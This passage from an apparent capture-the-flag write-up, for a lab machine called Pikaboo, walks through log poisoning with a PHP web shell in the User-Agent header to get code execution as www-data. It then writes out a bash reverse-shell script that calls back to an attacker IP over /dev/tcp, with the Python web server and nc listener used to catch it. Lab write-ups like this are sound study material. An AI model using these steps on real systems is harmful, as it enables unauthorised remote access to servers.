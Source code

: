 In the first step we send the request to burp repeater and modify our user agent to be a small php web shell.

[![poison](/img/pikaboo/poison.png)](/img/pikaboo/poison.png)

After sending the request we can set the user agent back now and add our defined parameter to the url calling the `id` command. Looking at the output we see we have indeed achieved RCE and the webserver is running as the `www-data` user.

[![rce_poc](/img/pikaboo/rce_poc.png)](/img/pikaboo/rce_poc.png)

To gain a reverse shell we just create an `index.html` with a reverse shell in it.

`index.html`
```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.11/7575 0>&1'
```

We serve this file over a python webserver and set up our listener on the port we specified in `index.html`.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
